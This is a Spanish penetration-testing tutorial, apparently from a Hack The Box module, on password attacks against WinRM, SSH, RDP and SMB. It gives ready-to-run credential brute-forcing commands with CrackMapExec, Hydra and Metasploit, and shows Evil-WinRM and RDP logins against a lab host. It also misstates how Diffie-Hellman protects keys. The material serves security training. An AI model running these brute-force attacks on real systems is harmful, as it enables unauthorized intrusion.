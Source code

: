 Durante nuestras pruebas de penetración, cada red informática que encontremos tendrá servicios instalados para administrar, editar o crear contenido. Todos estos servicios se alojan mediante permisos específicos y se asignan a usuarios específicos. Además de las aplicaciones web, estos servicios incluyen (pero no se limitan a):

|   |   |   |
|---|---|---|
|FTP|SMB|NFS|
|IMAP/POP3|SSH|MySQL/MSSQL|
|RDP|WinRM|VNC|
|Telnet|SMTP|LDAP|
Imaginemos que queremos gestionar un servidor Windows a través de la red. En consecuencia, necesitamos un servicio que nos permita acceder al sistema, ejecutar comandos en él o acceder a su contenido a través de una GUI o el terminal. En este caso, los servicios más habituales adecuados para ello son `RDP`, `WinRM`, y `SSH`. SSH ahora es mucho menos común en Windows, pero es el servicio líder para sistemas basados ​​en Linux.

## WinRM
[Gestión remota de Windows](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) ( `WinRM`) es la implementación de Microsoft del protocolo de red [Protocolo de gestión de servicios web](https://docs.microsoft.com/en-us/windows/win32/winrm/ws-management-protocol) ( `WS-Management`). Es un protocolo de red basado en servicios web XML que utiliza el [Protocolo simple de acceso a objetos](https://docs.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-glossary) ( `SOAP`) utilizado para la gestión remota de sistemas Windows. Se encarga de la comunicación entre [la gestión empresarial basada en web](https://en.wikipedia.org/wiki/Web-Based_Enterprise_Management) ( `WBEM`) y el [Instrumental de administración de Windows](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) ( `WMI`), que puede llamar al [modelo de objetos componentes distribuidos](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0) ( `DCOM`). WinRM usa los puertos TCP `5985` ( `HTTP`) y `5986` ( `HTTPS`).

Una herramienta útil que podemos utilizar para nuestros ataques a contraseñas es [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) , que también se puede utilizar para otros protocolos como SMB, LDAP, MSSQL y otros. Recomendamos leer la [documentación oficial](https://web.archive.org/web/20231116172005/https://www.crackmapexec.wiki/) de esta herramienta para familiarizarse con ella.

#### CrackMapExec

Tenga en cuenta que podemos especificar un protocolo específico y recibir un menú de ayuda más detallado de todas las opciones disponibles para nosotros. CrackMapExec actualmente admite la autenticación remota mediante MSSQL, SMB, SSH y WinRM.
```js
crackmapexec smb -h
```

El formato general para usar CrackMapExec es el siguiente:
```js
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```js
p314d0@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

La apariencia de `(Pwn3d!)`es la señal de que lo más probable es que podamos ejecutar comandos del sistema si iniciamos sesión con el usuario por fuerza bruta. Otra herramienta útil que podemos utilizar para comunicarnos con el servicio WinRM es [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) , que nos permite comunicarnos con el servicio WinRM de manera eficiente.

#### Evil-WinRM
```js
sudo gem install evil-winrm
```

```js
evil-winrm -i <target-IP> -u <username> -p <password>
```

```js
p314d0@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\user\Documents>
```

Si el inicio de sesión fue exitoso, se inicializa una sesión de terminal utilizando el [protocolo de comunicación remota Powershell](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-psrp/602ee78e-9a19-45ad-90fa-bb132b7cecec) ( `MS-PSRP`), que simplifica la operación y ejecución de comandos.

## SSH
Este servicio utiliza tres operaciones/métodos de criptografía diferentes: `symmetric` cifrado, `asymmetric` cifrado, y `hashing`.

#### Cifrado simétrico

El cifrado simétrico utiliza el `same key`para cifrado y descifrado. Sin embargo, cualquiera que tenga acceso a la clave también podrá acceder a los datos transmitidos. Por lo tanto, se necesita un procedimiento de intercambio de claves para un cifrado simétrico seguro. el [método de intercambio de claves Diffie-Hellman](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) Para ello se utiliza . Si un tercero obtiene la clave, no podrá descifrar los mensajes porque se desconoce el método de intercambio de claves. Sin embargo, el servidor y el cliente lo utilizan para determinar la clave secreta necesaria para acceder a los datos. Se pueden utilizar muchas variantes diferentes del sistema de cifrado simétrico, como AES, Blowfish, 3DES, etc.
![](https://upload.wikimedia.org/wikipedia/commons/thumb/c/c8/DiffieHellman.png/800px-DiffieHellman.png)

#### Cifrado asimétrico
Usos del cifrado asimétrico `two SSH keys`: una clave privada y una clave pública. La clave privada debe permanecer secreta porque sólo ella puede descifrar los mensajes que han sido cifrados con la clave pública. Si un atacante obtiene la clave privada, que a menudo no está protegida con contraseña, podrá iniciar sesión en el sistema sin credenciales. Una vez que se establece una conexión, el servidor utiliza la clave pública para la inicialización y autenticación. Si el cliente puede descifrar el mensaje, tiene la clave privada y la sesión SSH puede comenzar.

#### Hash
El método hash convierte los datos transmitidos en otro valor único. SSH utiliza hash para confirmar la autenticidad de los mensajes. Este es un algoritmo matemático que solo funciona en una dirección.

#### Hydra - SSH

```js
hydra -L user.list -P password.list ssh://10.129.42.197
```

## Remote Desktop Protocol (RDP)

Es un protocolo de red que permite el acceso remoto a sistemas Windows a través de `TCP port 3389`por defecto.

#### Hydra - RDP
```js
hydra -L user.list -P password.list rdp://10.129.42.197
```

Linux ofrece diferentes clientes para comunicarse con el servidor deseado utilizando el protocolo RDP. Estos incluyen [Remmina](https://remmina.org/) , [rdesktop](http://www.rdesktop.org/) , [xfreerdp](https://linux.die.net/man/1/xfreerdp) y muchos otros. Para nuestros propósitos, trabajaremos con xfreerdp.
#### xFreeRDP

```js
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

## SMB

```js
hydra -L user.list -P password.list smb://10.129.42.197
```

#### Hidra - Error

```shell-session
p314d0@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

Esto se debe a que lo más probable es que tengamos una versión desactualizada de THC-Hydra que no puede manejar las respuestas SMBv3. Para solucionar este problema, podemos actualizar y recompilar manualmente `hydra` o utilizar otra herramienta muy poderosa, el [framework Metasploit](https://www.metasploit.com/) .

```js
p314d0@htb[/htb]$ msfconsole -q

msf6 > use auxiliary/scanner/smb/smb_login
```

#### CrackMapExec

```js
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```

Para comunicarnos con el servidor vía SMB podemos utilizar, por ejemplo, la herramienta [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) . Esta herramienta nos permitirá ver el contenido de los recursos compartidos, cargar o descargar archivos si nuestros privilegios lo permiten.
#### Smbclient
```js
smbclient -U user \\\\10.129.42.197\\SHARENAME
```

